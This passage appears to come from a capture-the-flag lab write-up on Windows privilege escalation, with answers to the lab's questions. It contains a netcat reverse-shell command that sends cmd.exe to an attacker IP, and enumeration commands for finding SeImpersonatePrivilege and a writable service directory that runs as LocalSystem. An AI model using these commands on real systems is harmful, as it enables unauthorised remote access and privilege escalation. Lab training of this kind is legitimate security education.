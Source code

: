 **Return shell from target**

    powershell.exe c:\\windows\\temp\\nc-exec.exe 10.50.91.32 443 -e cmd.exe

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649086582536_image.png)



## Task 42  **AV Evasion** Enumeration



    Whoami /priv

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649086640318_image.png)


**Answer questions**

Use the command `whoami /priv`.
**[Research]** One of the privileges on this list is very famous for being used in the PrintSpoofer and Potato series of privilege escalation exploits -- which privilege is this?

    SeImpersonatePrivilege


**whoami groups**

    whoami /groups

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649086742539_image.png)


**Enumerate services**

    wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649086820788_image.png)


What is the Name (second column from the left) of this service?

    SystemExplorerHelpService

Is the service running as the local system account (Aye/Nay)?

    Aye

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649086960978_image.png)


**Check permissions of service**

    powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649087027566_image.png)


We have full control over this directory! How strange, but hey, Thomas' security oversight will allow us to root this target.

    No answer needed
